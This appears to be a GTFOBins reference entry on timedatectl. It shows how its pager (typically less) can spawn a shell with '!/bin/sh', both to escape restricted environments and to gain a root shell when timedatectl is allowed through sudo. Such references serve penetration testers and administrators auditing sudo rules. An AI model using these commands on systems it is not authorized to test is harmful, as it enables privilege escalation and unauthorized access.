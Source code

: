 # GTFOBin: timedatectl

This invokes the default pager, which is likely to be `less`, other functions may apply.

This might not work if run by unprivileged users depending on the system configuration.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
timedatectl list-timezones
!/bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo timedatectl list-timezones
!/bin/sh
```